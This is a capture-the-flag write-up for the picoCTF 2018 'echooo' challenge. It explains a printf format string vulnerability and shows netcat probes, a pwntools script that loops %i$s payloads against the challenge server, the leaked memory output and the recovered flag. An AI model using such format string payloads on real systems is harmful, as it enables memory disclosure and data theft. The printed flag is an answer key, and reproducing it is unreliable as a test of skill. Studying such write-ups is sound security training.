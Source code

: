 # echooo
## Question
>This program prints any input you give it. Can you [leak](files/echo) the flag? Connect with `nc 2018shell.picoctf.com 34802`. [Source](files/echo.c). 

## Hint
>If only the program used puts...

# Solution
## Identify the vulnerability
The source code reveals the use of `printf` that we will be able to exploit with a *format string attack*.

>*"Format string vulnerabilities are a pretty silly class of bug that take advantage of an easily avoidable programmer error. If the programmer passes an attacker-controlled buffer as the argument to a printf (or any of the related functions, including sprintf, fprintf, etc), the attacker can perform writes to arbitrary memory addresses."*

Some interesting readings about format string attack:
* http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
* https://owasp.org/www-community/attacks/Format_string_attack
* https://www.exploit-db.com/papers/23985

## Proof of Concept
The following injections confirm that the program is vulnerable:
~~~~
$ nc 2018shell.picoctf.com 34802
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x
40
> %s
timeout: the monitored command dumped core
~~~~

~~~~
$ nc 2018shell.picoctf.com 34802
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %3$s
��l�������l�����l�����l����y�������j@j
> %4$s
`d{�
> %5$s
timeout: the monitored command dumped core
~~~~

## Exploit
Let's write a program that will iteratively test the first 10 strings:

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'critical'
host, port = '2018shell.picoctf.com', 34802
for i in range(10):
    s = remote(host, port)
    s.recvuntil('> ')
    s.sendline('%' + str(i) + '$s')
    response = s.recv()
    print(response)
    s.close()
```
Let's run the program
~~~~
$ ./exploit.py 
b'%0$s\n'
b'timeout: the monitored command dumped core\n'
b'\x88 \xad\xfbuqN\tuqN\tpqN\tpqN\tpqN\tpqN\tpqN\tp\x81N\t\n'
b'\x89\x85l\xff\xff\xff\x83\xec\x04\xff\xb5l\xff\xff\xff\xff\xb5l\xff\xff\xff\xff\xb5l\xff\xff\xff\xe8y\xfe\xff\xff\x83\xc4\x10\x83\xec\x04j@j\n'
b'`\xd4o\xf7\x03\n'
b'timeout: the monitored command dumped core\n'
b'X\x83\x04\x08\x10ii\r\n'
b'\xa9\x8e\x90\xff\n'
b'picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced3}\n\n'
~~~~

# Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced3}`
